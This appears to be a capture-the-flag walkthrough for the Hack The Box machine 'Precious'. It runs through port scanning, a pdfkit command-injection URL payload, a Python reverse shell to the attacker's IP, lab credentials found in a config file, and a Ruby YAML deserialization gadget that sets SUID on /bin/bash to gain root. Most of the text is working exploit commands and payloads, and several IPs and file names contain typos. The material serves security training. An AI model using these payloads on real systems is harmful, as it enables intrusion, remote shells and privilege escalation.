 First, scan the ip address for finding out open ports
```
sudo nmap -sS --min-rate 5000 --open -Pn -n -vvv -p- -oG allPorts 10.10.11.189
```

We notice that there's 2 open ports: the ```22``` (ssh) and ```80```(http), let's see the details and versions
```
nmap -sC -sV -p22,80 10.10.11.189 -oN targeted
```

Add the following line to the ```/etc/hosts```
```
19.10.11.189        precious.htb
```

Open a server to send a url to the web in the ```./content``` directory by
```
sudo python -m http.server 222
```

Then, write in the text input of the web the next line:
```
http://<YOUR_IP>:222/
```
> complete your ip by your tun0 ip, in my case it's
> ```
> http://10.10.16.21:222/
> ```

We have get a pdf file to download, I've had this one:
```
4phjxico85mknarmb11tqv80cal3xij4.pdf
```

It seems sus, so let's verify it
```
exiftool 4phjxico85mknarmb11tqv80cal3xij4.pdf
```

We have the following output :
```
ExifTool Version Number         : 12.50
File Name                       : 4phjxico85mknarmb11tqv80cal3xij4.pdf
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2022:12:25 17:08:33+01:00
File Access Date/Time           : 2022:12:25 17:08:52+01:00
File Inode Change Date/Time     : 2022:12:25 17:08:48+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We notice that the file was generate by ```pdfkit```. Let's check if there is a vulnerabilty !

We find the following vulnerabilty [here](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

To sumarize, if we put a parameter in the link, we can run shell commands. For example
```
http://example.com/?name=#{'%20`sleep 5`'}
```

So, we can have a revershell, let's do this:
```
sudo nc -lvpn 403
```

And then, we enter the following one liner
```
http://example.com/?name=#{'%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.21",403));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`'}
```
> Enter your IP adress in the connect function !

Ok, We have acces as ```ruby``` user ! so let's search files or interessenting directories !
```
ls -la /home/ruby/
```

In the home directory, we find the ```.bundle/config``` file where we can find :
```
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

So, we saw before that the ssh service was running in the port 22
```
ssh henry@10.10.10.11.189
```

We enter the passwd found before to finish the connection !
```
Q3c1AqGHtoI0aXAYFH
```

So, now were are ```henry```, check for the user flag at home directory by ```cat user.txt```
```
a0b652bcf3dfcbba084dda66d96307cd
```

In order to get root, check before if we have privileges as ```henry``` by
```
sudo -l
```
> enter the same password to connect to ssh service !

We can run a update file with ```ruby```
```
SUDO [NO PASSWD] /usr/bin/ruby /opt/updates_.rb
```

Reading the code, we notice there's a YML vulnerability we can exploit ! : ```Universal RCE with Ruby YAML.load```

More details [here](https://gist.githubusercontent.com/staaldraad/89dffe369e1454eedd3306edc8a7e565/raw/4b85e6fe8f5708f0a7ba87dbecb6954f8f380bee/ruby_yaml_load_sploit2.yaml)

So, create a ```~/dependencies.yml``` and we put the following code :
```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```

Notice that we changed the original script in order to get SUID privileges by
```
git_set: chmod u+s /bin/bash
```

Once done, run the sudo privileges !
```
sudo /usr/bin/ruby /opt/update_.rb
```

Check if the ```/bin/bash``` has the SUID permission by
```
ls -lh /bin/bash
```
> The have a "s" in the persmission section !

Finally, run the ```/bin/bash``` like this
```
/bin/bash -p
```

We're root !  let's check the last flag by
```
cat ~/root.txt
```

We have 
```
187fb185bad1efce0d8fb887b49ce68d
```

Done !
